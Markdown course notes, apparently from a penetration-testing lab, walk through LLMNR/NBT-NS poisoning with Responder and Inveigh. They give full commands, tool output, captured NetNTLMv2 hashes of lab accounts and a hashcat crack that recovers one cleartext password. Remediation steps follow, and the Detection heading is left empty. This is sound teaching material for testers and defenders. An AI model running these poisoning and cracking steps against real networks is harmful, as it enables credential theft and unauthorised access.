





- [Sniffing out a Foothold](#sniffing-out-a-foothold)
  - [LLMNR / NBT-NS Poisoning - from Linux](#llmnr--nbt-ns-poisoning---from-linux)
    - [Responder](#responder)
  - [LLMNR / NBT-NS Poisoning - from Windows](#llmnr--nbt-ns-poisoning---from-windows)
    - [Inveigh](#inveigh)
    - [C# Inveigh](#c-inveigh)
  - [Remediation](#remediation)
  - [Detection](#detection)

---

# Sniffing out a Foothold

## LLMNR / NBT-NS Poisoning - from Linux

Link-Local Multicast Name Resolution (_LLMNR_) and NetBIOS Name Service (_NBT-NS_) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails. If a machine attempts to resolve a host but DNS resolution fails, typically, the machine will try to ask all other machines on the local network for the correct host address via LLMNR. LLMNR is based upon the Domain Name System format and allows hosts on the same local link to perform name resolution for other hosts. It uses port 5355 over UDP natively. If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port 137 over UDP.

ANY host on the network can reply. This is where you come in with Responder to poison these requests. With network access, you can spoof an authoritative name resolution source in the broadcast domain by responding to LLMNR and NBT-NS traffic as if they have an answer for the requesting host. This poisoning effort is done to get the victims to communicate with your system by pretending that your rogue system knows the location of the requested host. If the requested host requires name resolution or authentication actions, you can capture the NetNTLM hash and subject it to an offline brute force attack in attempt to retrieve the cleartext password. The captured authentication request, can also be relayed to access another host or used against a different protocol on the same host. LLMNR/NBNS spoofing combined with a lack of SMB signing can often lead to administrative access on hosts within a domain.

Example:

1. A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
2. The DNS server responds, stating that this host is unknown.
3. The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
4. The attacker responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
5. The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.
6. This hash can then be cracked offline or used in an SMB relay attack if the right conditions exist.

### Responder

... is a relatively straightforward tool, but is extremely powerful and has many different functions.

```bash
d41y@htb[/htb]$ responder -h
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -r -f
or:
responder -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

The ```-A``` flag puts you into analyze mode, allowing you to see NBT-NS, BROWSER, and LLMNR requests in the environment without poisoning any responses. You must always supply either an interface or an IP. Some common options you'll typically want to use are ```-wf```; this will start the WPAD rogue proxy server, while ```-f``` will attempt to fingerprint the remote host OS and version. You can use the ```-v``` flag for increased verbosity if you are running into issues, but this will lead to a lot of additional data printed to the console. Other options such as ```-F``` and ```-P``` can be used to force NTLM or Basic authentication and force proxy authentication, but may cause a login prompt, so they should be used sparingly. The use of the ```-w``` flag utilizes the built-in WPAD proxy server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has Auto-detect settings enabled.

With this configuration shown above, Responder will listen and answer to any requests it sees on the wire. If you are successful and manage to capture a hash, Responder will print it out on screen and write it to a log file per host located in the ```/usr/share/responder/logs``` directory. Hashes are saved in the format ```(MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt```, and one hash is printed to the console and stored in its associated log file unless -v mode is enabled. For example, a log file may look like ```SMB-NTLMv2-SSP-172.16.5.25```. Hashes are also stored in a a SQLite DB that can be configured in the ```Responder.conf``` config file, typically located in ```/usr/share/responder``` unless you clone the Responder repo directly from GitHub.

You must run the tool with sudo privileges or as root and make sure the following ports are availabe on your attack host for it to function best.

```
UDP 137, UDP 138, UDP 53, UDP/TCP 389,TCP 1433, UDP 1434, TCP 80, TCP 135, TCP 139, TCP 445, TCP 21, TCP 3141,TCP 25, TCP 110, TCP 587, TCP 3128, Multicast UDP 5355 and 5353
```

If Responder successfully captured hashes, as seen below, you can find the hashes associated with each host/protocol in their own text file.

```bash
d41y@htb[/htb]$ ls

Analyzer-Session.log                Responder-Session.log
Config-Responder.log                SMB-NTLMv2-SSP-172.16.5.200.txt
HTTP-NTLMv2-172.16.5.200.txt        SMB-NTLMv2-SSP-172.16.5.25.txt
Poisoners-Session.log               SMB-NTLMv2-SSP-172.16.5.50.txt
Proxy-Auth-NTLMv2-172.16.5.200.txt
```

You can kick off a Responder session rather quickly:

```bash
sudo responder -I ens224 
```

Once you obtained (_enough_) hashes, you can pass these to Hashcat using hash mode 5000 for NTLMv2 hashes that you typically obtain with Responder. You may at times obtain NTLMv1 hashes and other type of hashes and can consult the [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page to identify them and find the proper hash mode. If you ever obtain a strange or unknown hash, this site is a great reference to help identify it.

```bash
d41y@htb[/htb]$ hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

FOREND::INLANEFREIGHT:4af70a79938ddf8a:0f85ad1e80baa52d732719dbf62c34cc:010100000000000080f519d1432cd80136f3af14556f047800000000020008004900340046004e0001001e00570049004e002d0032004e004c005100420057004d00310054005000490004003400570049004e002d0032004e004c005100420057004d0031005400500049002e004900340046004e002e004c004f00430041004c00030014004900340046004e002e004c004f00430041004c00050014004900340046004e002e004c004f00430041004c000700080080f519d1432cd80106000400020000000800300030000000000000000000000000300000227f23c33f457eb40768939489f1d4f76e0e07a337ccfdd45a57d9b612691a800a001000000000000000000000000000000000000900220063006900660073002f003100370032002e00310036002e0035002e003200320035000000000000000000:Klmcargo2
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: FOREND::INLANEFREIGHT:4af70a79938ddf8a:0f85ad1e80ba...000000
Time.Started.....: Mon Feb 28 15:20:30 2022 (11 secs)
Time.Estimated...: Mon Feb 28 15:20:41 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1086.9 kH/s (2.64ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10967040/14344385 (76.46%)
Rejected.........: 0/10967040 (0.00%)
Restore.Point....: 10960896/14344385 (76.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: L0VEABLE -> Kittikat

Started: Mon Feb 28 15:20:29 2022
Stopped: Mon Feb 28 15:20:42 2022
```

## LLMNR / NBT-NS Poisoning - from Windows

### Inveigh

If you end up with a Windows host as your attack box, your client provides you with a Windows box to test from, or you land on a Windows host as a local admin via another method and would like to look to further your access, the tool Inveigh works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTP, HTTPS, SMB, LDAP, WebDAV, and Proxy Auth.

You can get started with the PowerShell version as follows and then list all possible parameters.

```powershell
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

Key                     Value
---                     -----
ADIDNSHostsIgnore       System.Management.Automation.ParameterMetadata
KerberosHostHeader      System.Management.Automation.ParameterMetadata
ProxyIgnore             System.Management.Automation.ParameterMetadata
PcapTCP                 System.Management.Automation.ParameterMetadata
PcapUDP                 System.Management.Automation.ParameterMetadata
SpooferHostsReply       System.Management.Automation.ParameterMetadata
SpooferHostsIgnore      System.Management.Automation.ParameterMetadata
SpooferIPsReply         System.Management.Automation.ParameterMetadata
SpooferIPsIgnore        System.Management.Automation.ParameterMetadata
WPADDirectHosts         System.Management.Automation.ParameterMetadata
WPADAuthIgnore          System.Management.Automation.ParameterMetadata
ConsoleQueueLimit       System.Management.Automation.ParameterMetadata
ConsoleStatus           System.Management.Automation.ParameterMetadata
ADIDNSThreshold         System.Management.Automation.ParameterMetadata
ADIDNSTTL               System.Management.Automation.ParameterMetadata
DNSTTL                  System.Management.Automation.ParameterMetadata
HTTPPort                System.Management.Automation.ParameterMetadata
HTTPSPort               System.Management.Automation.ParameterMetadata
KerberosCount           System.Management.Automation.ParameterMetadata
LLMNRTTL                System.Management.Automation.ParameterMetadata

<SNIP>
```

Start Inveigh with LLMNR and NBNS poisoning, and output to the console and write to a file.

```powershell
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-02-28T19:26:30
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.5.25
[+] Spoofer IP Address = 172.16.5.25
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer For Types 00,20 = Enabled
[+] NBNS TTL = 165 Seconds
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Certificate Issuer = Inveigh
[+] HTTPS Certificate CN = localhost
[+] HTTPS Capture = Enabled
[+] HTTP/HTTPS Authentication = NTLM
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Full
[+] File Output = Enabled
[+] Output Directory = C:\Tools
WARNING: [!] Run Stop-Inveigh to stop
[*] Press any key to stop console output
WARNING: [-] [2022-02-28T19:26:31] Error starting HTTP listener
WARNING: [!] [2022-02-28T19:26:31] Exception calling "Start" with "0" argument(s): "An attempt was made to access a
socket in a way forbidden by its access permissions" $HTTP_listener.Start()
[+] [2022-02-28T19:26:31] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:31] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:31] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:33] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:33] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:33] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:34] TCP(445) SYN packet detected from 172.16.5.125:56834
[+] [2022-02-28T19:26:34] SMB(445) negotiation request detected from 172.16.5.125:56834
[+] [2022-02-28T19:26:34] SMB(445) NTLM challenge 7E3B0E53ADB4AE51 sent to 172.16.5.125:56834

<SNIP>
```

You can see that you immediately begin getting LLMNR and mDNS requests.



### C# Inveigh

The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version. Before you can use the C# version of the tool, you have to compile the executable.

Running the C# version with the defaults and starting to capture hashes:

```powershell
PS C:\htb> .\Inveigh.exe

[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[ ] [20:03:32] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:32] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:32] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:32] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:32] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:32] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:32] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:03:32] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
```

As you can see, the tool starts and shows which options are enabled by default and which are not. The options with a ```[+]``` are default and enabled by default and the ones with a ```[ ]``` before them are disabled. The running console output also shows you which options are disabled and, therefore, responses are not being sent. You can also see the message ```Press ESC to enter/exit interactive console```, which is very useful while running the tool. The console gives you access to captured credentials/hashes, allows you to stop Inveigh, and more.

You can hit the ```esc``` key to enter the console while Inveigh is running.

```powershell
<SNIP>

[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61310
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61311
C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

After typing ```HELP``` and hitting enter, you are presented with several options:

```powershell

=============================================== Inveigh Console Commands ===============================================

Command                           Description
========================================================================================================================
GET CONSOLE                     | get queued console output
GET DHCPv6Leases                | get DHCPv6 assigned IPv6 addresses
GET LOG                         | get log entries; add search string to filter results
GET NTLMV1                      | get captured NTLMv1 hashes; add search string to filter results
GET NTLMV2                      | get captured NTLMv2 hashes; add search string to filter results
GET NTLMV1UNIQUE                | get one captured NTLMv1 hash per user; add search string to filter results
GET NTLMV2UNIQUE                | get one captured NTLMv2 hash per user; add search string to filter results
GET NTLMV1USERNAMES             | get usernames and source IPs/hostnames for captured NTLMv1 hashes
GET NTLMV2USERNAMES             | get usernames and source IPs/hostnames for captured NTLMv2 hashes
GET CLEARTEXT                   | get captured cleartext credentials
GET CLEARTEXTUNIQUE             | get unique captured cleartext credentials
GET REPLYTODOMAINS              | get ReplyToDomains parameter startup values
GET REPLYTOHOSTS                | get ReplyToHosts parameter startup values
GET REPLYTOIPS                  | get ReplyToIPs parameter startup values
GET REPLYTOMACS                 | get ReplyToMACs parameter startup values
GET IGNOREDOMAINS               | get IgnoreDomains parameter startup values
GET IGNOREHOSTS                 | get IgnoreHosts parameter startup values
GET IGNOREIPS                   | get IgnoreIPs parameter startup values
GET IGNOREMACS                  | get IgnoreMACs parameter startup values
SET CONSOLE                     | set Console parameter value
HISTORY                         | get command history
RESUME                          | resume real time console output
STOP                            | stop Inveigh
```

You can quickly view unique captured hashes by typing ```GET NTLMV2UNIQUE```.

```powershell

================================================= Unique NTLMv2 Hashes =================================================

Hashes
========================================================================================================================
backupagent::INLANEFREIGHT:B5013246091943D7:16A41B703C8D4F8F6AF75C47C3B50CB5:01010000000000001DBF1816222DD801DF80FE7D54E898EF0000000002001A0049004E004C0041004E004500460052004500490047004800540001001E00410043004100440045004D0059002D00450041002D004D005300300031000400260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C0003004600410043004100440045004D0059002D00450041002D004D005300300031002E0049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C000500260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C00070008001DBF1816222DD8010600040002000000080030003000000000000000000000000030000004A1520CE1551E8776ADA0B3AC0176A96E0E200F3E0D608F0103EC5C3D5F22E80A001000000000000000000000000000000000000900200063006900660073002F003100370032002E00310036002E0035002E00320035000000000000000000
forend::INLANEFREIGHT:32FD89BD78804B04:DFEB0C724F3ECE90E42BAF061B78BFE2:010100000000000016010623222DD801B9083B0DCEE1D9520000000002001A0049004E004C0041004E004500460052004500490047004800540001001E00410043004100440045004D0059002D00450041002D004D005300300031000400260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C0003004600410043004100440045004D0059002D00450041002D004D005300300031002E0049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C000500260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C000700080016010623222DD8010600040002000000080030003000000000000000000000000030000004A1520CE1551E8776ADA0B3AC0176A96E0E200F3E0D608F0103EC5C3D5F22E80A001000000000000000000000000000000000000900200063006900660073002F003100370032002E00310036002E0035002E00320035000000000000000000

<SNIP>
```

You can type in ```GET NTLMV2USERNAMES``` and see which usernames you have collected. This is helpful if you want a listing of users to perform additional enumeration against and see which are worth attempting tp crack offline using Hashcat.

```powershell

=================================================== NTLMv2 Usernames ===================================================

IP Address                        Host                              Username                          Challenge
========================================================================================================================
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\backupagent       | B5013246091943D7
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\forend            | 32FD89BD78804B04
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\clusteragent      | 28BF08D82FA998E4
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\wley              | 277AC2ED022DB4F7
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\svc_qualys   
```

## Remediation

Mitre ATT&CK lists this technique as ID: T1557.001, Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay.

There are a few ways to mitigate this attack. To ensure that these spoofing attacks are not possible, you can disable LLMNR and NBT-NS. As a word of caution, it is always worth slowly testing out a significant change like this to your environment carefully before rolling it out fully.

You can disable LLMNR in Group Policy by going to Computer Configuration -> Administrative Templates -> Network -> DNS Client and enabling "Turn OFF Multicast Name Resolution".



NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. You can do this by opening "Network and Sharing Center" und Control Panel, clicking on Change adapter settings, right-clicking on the adapter to view its properties, selecting Internet Protocol Version 4 (TCP/IP), and clicking the Properties button, then clicking on Advanced and selecting the WINS tab and finally selecting Disbale NetBIOS over TCP/IP.



While it is not possible to disable NBT-NS directly via GPO, you can create a PowerShell script under Computer Configuration -> Windows Settings -> Script (Startup/Shutdown) -> Startup with something like the following:

```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```

In the Local Group Policy Editor, you will need to double click on Startup, choose the PowerShell Scripts tab, and select "For this GPO, run scripts in the following order" to Run Windows PowerShell scripts first, and then click on Add and choose the script. For these changes to occur, you would have to either reboot the target system or restart the network adapter.



To push this out to all hosts in a domain, you would create a GPO using Group Policy Management on the DC and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as:

```
\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```



Other mitigations include filtering network traffic to block LLMNR/NetBIOS traffic and enabling SMB Signing to prevent NTLM relay attacks. Network intrusion detection and prevention systems can also be used to mitigate this activity, while network segmentation can be used to isolate hosts that require LLMNR or NetBIOS enabled to operate correctly.

## Detection

